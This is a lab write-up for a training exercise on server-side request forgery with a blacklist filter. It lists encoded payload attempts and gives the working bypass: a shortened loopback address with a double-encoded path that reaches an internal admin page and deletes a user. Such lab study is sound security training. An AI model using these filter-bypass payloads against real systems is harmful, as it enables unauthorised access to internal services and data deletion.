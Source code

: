 ### Lab: SSRF with blacklist-based input filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

_____

Analysis and Exploit:

1. Use the 'stock check' feature at **/product/stock**
    - stockApi : http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
    - must be url encoded: http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeI
2. Try to bypass SSRF defenses: http://localhost/admin + [BURP-REPEATER] + | [BURP-HACKVETOR]
    - http%3a//localhost/admin | <@/burp_urlencode> | "External stock check blocked for security reasons" (1)
    - aHR0cDovL2xvY2FsaG9zdC9hZG1pbg | <@/base64url> | "Missing parameter" (2)
    - %68%74%74%70%3A%2F%2F%6C%6F%63%61%6C%68%6F%73%74%2F%61%64%6D%69%6E | <@/urlencode_all> | (1)
    - http%3A%2F%2Flocalhost%2Fadmin | <@/urlencode> | (1)
    - http%253A%252F%252Flocalhost%252Fadmin | <@/urlencode>x2 | (1)
    - http://127.1/%25%36%31dmin | 'a' <@/urlencode_all>x2 | OK
3. Delete user _carlos_ **/%25%36%31dmin/delete?username=carlos**

_____

Script:

1. Delete user carlos | POST **/product/stock** | params: stockApi
    - stockApi : http://127.1/%25%36%31dmin/delete?username=carlos
    - check if deletion is successful

